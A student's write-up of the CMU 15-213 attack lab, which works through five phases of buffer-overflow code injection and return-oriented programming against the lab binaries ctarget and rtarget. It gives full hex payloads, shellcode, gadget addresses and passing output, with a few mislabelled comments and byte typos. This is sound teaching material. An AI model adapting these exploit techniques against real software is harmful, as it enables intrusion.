





# Solution Process

## Basis

1. Use `lscpu` to get CPU info in Linux:

```shell
Architecture:             x86_64
  CPU op-mode(s):         32-bit, 64-bit
  Address sizes:          43 bits physical, 48 bits virtual
  Byte Order:             Little Endian
```

2. Use `cat /etc/os-release` to get OS info in Linux:

```shell
PRETTY_NAME="Ubuntu 24.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="24.04"
VERSION="24.04.3 LTS (Noble Numbat)"
VERSION_CODENAME=noble
```

3. Use `objdump -v` and `gdb -v` to get their info:

```shell
GNU objdump (GNU Binutils for Ubuntu) 2.42

GNU gdb (Ubuntu 15.0.50.20240403-0ubuntu1) 15.0.50.20240403-git
```

## Process

Same as bomb lab, we firstly generate the corresponding assembly files to `ctarget` and `rtarget` by using `objdump -d ctarget > ctarget.asm` and `objdump -d rtarget > rtarget.asm` respectively.

### Phase 1

As read in the `attacklab.pdf`, we need to redirect the return statement of `getbuf` in assembly-code level from `test` to `touch1`, so the output string will be `Touch1!: You called touch1()` instead of `No exploit. Getbuf returned ...`.

Firstly, we read assembly code of `test` procedure:

```asm
0000000000401968 <test>:
  401968: 48 83 ec 08           sub    $0x8,%rsp
  40196c: b8 00 00 00 00        mov    $0x0,%eax
  401971: e8 32 fe ff ff        call   4017a8 <getbuf>
  401976: 89 c2                 mov    %eax,%edx
  ...
```

Then, there are codes of `getbuf` procedure:

```asm
00000000004017a8 <getbuf>:
  4017a8: 48 83 ec 28           sub    $0x28,%rsp
  4017ac: 48 89 e7              mov    %rsp,%rdi
  4017af: e8 8c 02 00 00        call   401a40 <Gets>
  4017b4: b8 01 00 00 00        mov    $0x1,%eax
  4017b9: 48 83 c4 28           add    $0x28,%rsp
  4017bd: c3                    ret
  4017be: 90                    nop
  4017bf: 90                    nop
```

It is clear that the `getbuf` procedure uses 0x28, namely 40, bytes of space on the runtime stack. Since `call` instruction will spare 8 bytes space for storing the address of next instruction, which is 401976 shown above, and the stack position will be consistent from one run to the next, we need to change the stored address from 401976 to `4017c0`, the first address of `touch1`. We should input a string of 48 bytes, with the final 8 bytes referring to `touch1`.

This is how the stack looks like when `test` calls `getbuf`, which calls `Gets` then:

<div style="display: flex; justify-content: center; align-items: center;">
  
</div>

We want to make the stack look like the following state after returning from `getbuf`:

<div style="display: flex; justify-content: center; align-items: center;">
  
</div>

My machine is `Little Endian`, so the final 8 bytes of the input string should be `c0 17 40 00 00 00 00 00`.
We make the string look like below:

```txt
48 61 6C 6F 2C 20 6D 61 79 20 79 6F 75 20 68 61 76 65 20 61 20 6E 69 63 65 20 61 6E 64 20 68 61 70 70 79 20 64 61 79 21 /* Halo, may you have a nice and happy day! */
c0 17 40 00 00 00 00 00
```

We can store the hex string in `p1_hex` file and then pass to `hex2raw` program to generate a string that can be passed to `ctarget` program. The result is shown below:

```txt
 ./hex2raw < ./p1_hex > ./p1_raw
 ./ctarget -q -i p1_raw

Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:48 61 6C 6F 2C 20 6D 61 79 20 79 6F 75 20 68 61 76 65 20 61 20 6E 69 63 65 20 61 6E 64 20 68 61 70 70 79 20 64 61 79 21 C0 17 40 00 00 00 00 00
```

### phase 2

After reading the phase 2 content in `attacklab.pdf`, we have known that not only should we modify the assembly code to transfer control of `ret` instruction from `test` to `touch2`, but also we need to set the register `%rdi`, representing the first parameter of callee function, to our cookie, `0x59b997fa`.

Firstly, we need to check if the memory space that stores the input string is executable, it should be executable since we plan to inject code to run.
We have known that the stack position will be consistent from one run to the next. We pause the program in `GDB` and check the address:

```txt
gdb --args ctarget -q
b getbuf
r
p $rsp
ni
ni
ni
p $rsp
info proc mappings
```

By these instructions, we know that the input string takes space from `0x5561dc78` to `0x5561dc9f`. And using `info proc mappings`, we notice that:

```txt
0x55586000         0x55686000   0x100000        0x0  rwxp
```

This means if we involve executable code in the input string, the code can be executed. This supports one valid solution we will mention then.

We need to set our cookie, `0x59b997fa`, as the first parameter, and we need to transfer control to `touch2`. So, we add a file `p2.s` to record this.

```asm
mov $0x59b997fa,%edi
pushq $0x4017ec
ret
```

We use `gcc -c p2.s` to generate file `p2.o`, then we use `objdump -d p2.o > p2.asm` to get corresponding machine code:

```asm
0000000000000000 <.text>:
   0: bf fa 97 b9 59        mov    $0x59b997fa,%edi
   5: 68 ec 17 40 00        push   $0x4017ec
   a: c3                    ret
```

We collect the machine code as the beginning of our input string. This consists of the first 11 bytes for our string, so we append other 29 bytes `90` to reach a length of 40 bytes. We also need to append 8 more bytes to overrun the stack to transfer control of `test` to the injected code. Because the code begins at `0x5561dc78`, the whole string looks like below:

```txt
bf fa 97 b9 59 /* mov $0x59b997fa,%edi */
68 ec 17 40 00 /* push $0x4017ec */
c3 /* ret */
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
78 dc 61 55 00 00 00 00
```

The diagram below shows changes of this procedure. Overall, we use injected codes to set the first parameter and the transfer control to `touch2`:

<div style="display: flex; justify-content: center; align-items: center;">
  
</div>

The result is shown below:

```shell
 ./hex2raw < ./p2_hex > p2_raw
 ./ctarget -q -i p2_raw

Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 68 EC 17 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00
```

### phase 3

We need to pass a string as parameter, but `hexmatch` will push data onto the stack, overwriting portions of memory that held the buffer used by `getbuf`. As a result, we need to store the input string onto portions where the address is bigger than `$rsp`.

From phase 2, we have known that the address of next instruction of `test` stored in the stack is `0x5561dca0`. So we decide to store the input string at `0x5561dca8`.
Same as phase 2, we firstly write assembly codes to set the parameter, push address of the instruction, and store as `p3.s`:

```asm
mov $0x5561dca8,%rdi
pushq $0x4018fa
ret
```

We use `gcc -c p3.s` to generate `p3.o` file, and use `objdump -d p3.o > p3.asm` to generate machine codes. Also, we collect the 13 bytes codes followed by 27 bytes `90`, as well as `78 dc 61 55 00 00 00 00` as following 8 bytes.
Additionally, we translate the cookie into `ascii`. We can use `man ascii` as a reference.
Store the hex string as file `p3_hex`.

```txt
48 c7 c7 a8 dc 61 55 /* mov $0x5561dca8,%rdi */
68 fa 18 40 00 /* push $0x4018fa */
c3 /* ret */
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

The main steps are the same as in phase 2, except for the location where the parameter is stored. Use `./hex2raw < p3_hex > p3_raw` and `./ctarget -q -i p3_raw` to get the result:

```txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

### phase 4

Two most significant changes are:

1. It uses randomization so that the stack positions differ from one run to another.
2. It marks the section of memory holding the stack as non-executable.

The reference asks us to repeat the attack of phase 2, and use gadgets consisting of `movq`, `popq`, `ret` or `nop`. Then, we get an inspiration: We store the value on the stack, pop it into register `rdi` or pop it into other register and then move to register `rdi`, and then we transfer control to `touch2`.

We copy the assembly code of `farm.c` into `gadgets.asm` to search for gadget segments conveniently. Initially, we try to search the gadget that can pop the value into register `rdi`, read as `5f c3`, but failed. So we tend to find the gadget, popping the value into other register and moving to register `rdi`. We find `58 90 c3`, which begins at `0x4019ab` and will pop the value into register `rax`, and `48 89 c7 90 c3`, which begins at `0x4019c5` and will move the value from register `rax` to register `rdi`. The two gadgets are enough for our solution.

We store the `popq` gadget address on the `41st` ~ `48th` bytes of the input string, since the stack positions have been randomized so we can't predict the exact address. Then we store the cookie on the `49th` ~ `56th` bytes, since the length of register `rax` is 64-bits. Then we store the `moveq` gadget address on the `57th` ~ `64th` bytes to set the parameter of `touch2`. Finally, we store the `touch2` address on the `65th` ~ `72nd` bytes to transfer control to `touch2` function.
The process above is shown below:

<div style="display: flex; justify-content: center; align-items: center;">
  
</div>

We make the hex string and store it in the `p4_hex`:

```txt
48 61 6C 6F 2C 20 6D 61 79 20 79 6F 75 20 68 61 76 65 20 61 20 6E 69 63 65 20 61 6E 64 20 68 61 70 70 79 20 64 61 79 21 /* Halo, may you have a nice and happy day! */
ab 19 40 00 00 00 00 00 /* popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* touch2 */
```

Use `./hex2raw < p4_hex > p4_raw` and `./rtarget -q -i p4_raw` to get the result:

```txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:48 61 6C 6F 2C 20 6D 61 79 20 79 6F 75 20 68 61 76 65 20 61 20 6E 69 63 65 20 61 6E 64 20 68 61 70 70 79 20 64 61 79 21 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 0
0 00
```

### phase 5

From phase 3, we get the input hex string, `35 39 62 39 39 37 66 61 00`, with length of 9 bytes. Let's assume we have already built it and stored it somewhere on the stack, the essential thing we need to do is to get the address of the string. This needs to move 8 bytes value from register `rsp` to another, the corresponding instruction beginning with `48 89 e*`. After searching in file `gadgets.asm`, we can get a segment, `48 90 e0 c3`, beginning at `0x401a06`, which can move the value from register `rsp` to register `rax`. There are also some other needed gadgets, I list them all below:

1. `movq %rsp,%rax` -> `401a06`
2. `popq %rax` -> `4019ab`
3. `movq %rax,%rdi` -> `4019c5`
4. `movl %eax,%edx` -> `401a42`
5. `movl %edx,%ecx` -> `401a34`
6. `movl %ecx,%esi` -> `401a13`
7. `lea (%rdi,%rsi,1),%rax` -> `4019d6`

By using these gadget segments, we can solve phase 5. We can do following steps to calculate the address of the input string and save it as the parameter:

```asm
movq %rsp,%rax           ;get the basis address
movq %rax,%rdi
popq %rax                ;get the offset
movl %eax,%edx
movl %edx,%ecx
movl %ecx,%esi
lea (%rdi,%rsi,1),%rax   ;get the address of the input parameter
movq %rax,%rdi           ;set the parameter
```

Plus data, we can get the hex string we want:

```txt
48 61 6C 6F 2C 20 6D 61 79 20 79 6F 75 20 68 61 76 65 20 61 20 6E 69 63 65 20 61 6E 64 20 68 61 70 70 79 20 64 61 79 21 /* Halo, may you have a nice and happy day! */
06 1a 40 00 00 00 00 00 /* movq %rsp,%rax */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi */
ab 19 40 00 00 00 00 00 /* popq %rax */
48 00 00 00 00 00 00 00 /* offset value */
42 1a 40 00 00 00 00 00 /* movl %eax,%edx */
34 1a 40 00 00 00 00 00 /* movl %edx,%ecx */
13 1a 40 00 00 00 00 00 /* movl %ecx,%esi */
d6 19 40 00 00 00 00 00 /* lea (%rdi,%rsi,1),%rax */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi */
fa 18 40 00 00 00 00 00 /* touch2 */
35 39 62 39 39 37 66 61 00 /* parameter string */
```

The state of the runtime stack can be depicted as the following:

<div style="display: flex; justify-content: center; align-items: center;">
  
</div>

Store the hex string in `p5_hex`, and use `./hex2raw < p5_hex > p5_raw` and `./rtarget -q -i p5_raw` to get the result:

```txt
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:48 61 6C 6F 2C 20 6D 61 79 20 79 6F 75 20 68 61 76 65 20 61 20 6E 69 63 65 20 61 6E 64 20 68 61 70 70 79 20 64 61 79 21 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 0
0 00 42 1A 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

Till now, we have solved all 5 phases.
